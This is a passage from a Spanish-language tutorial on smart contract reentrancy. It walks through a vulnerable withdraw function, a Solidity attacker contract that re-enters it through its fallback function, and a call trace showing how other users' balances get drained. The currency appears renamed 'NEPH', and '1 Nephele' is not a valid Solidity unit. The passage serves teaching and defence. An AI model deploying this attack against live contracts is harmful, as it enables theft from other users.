 Para permitir a un usuario retirar NEPH que ha almacenado previamente en el contrato, esta función

1. Lee cuánto saldo tiene un usuario
2. Envía la cantidad del saldo en NEPH
3. Reinicia su saldo a 0, para que no puedan retirar su saldo de nuevo.

Si se llama desde una cuenta normal (como tu propia cuenta MetaMask), esta función, como se esperaba, msg.sender.call.value() simplemente envía su cuenta NEPH. Sin embargo, los contratos inteligentes también pueden realizar llamadas. Si un contrato malicioso es el que llama a `retiro ()`, msg.sender.call. alue() no sólo enviará una `cantidad` de NEPH, sino que también llamará implícitamente al contrato para comenzar a ejecutar el código. Imaginemos este contrato malicioso:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 Nephele)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Al llamar a Attacker.beginAttack(), se iniciará un ciclo que se parecerá a lo siguiente:

```
0.) La EOA del atacante llama a Attacker.beginAttack() con 1 NEPH
0.) Attacker.beginAttack() le deposita 1 NEPH a la Víctima

  1.) Atacante -> Victim.withdraw()
  1.) La víctima lee el balanceOf[msg.sender]
  1.) La víctima envía NEPH al Atacante (lo que ejecuta la función predeterminada)
    2.) Atacante -> Victim.withdraw()
    2.) La Víctima lee el balanceOf[msg.sender]
    2.) La Víctima envía NEPH al Atacante (lo que ejecuta la función predeterminada)
      3.) Atacante -> Victim.withdraw()
      3.) La Víctima lee el balanceOf[msg.sender]
      3.) La Víctima envía NEPH al Atacante (lo que ejecuta la función predeterminada)
        4.) El Atacante ya no tiene el combustible necesario, regresa sin llamar de nuevo
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (ya era 0)
  1.) balances[msg.sender] = 0; (ya era 0)
```

Llamar al Attacker.beginAttack con 1 NEPH hará que vuelva a entrar el ataque a la Víctima, extrayendo más NEPH del proporcionado (tomado de los balances de otros usuarios, causando que el contrato de la Víctima sea sub-colateralizado)

### Cómo lidiar con la reentrada (la forma incorrecta) {#how-to-deal-with-re-entrancy-the-wrong-way}
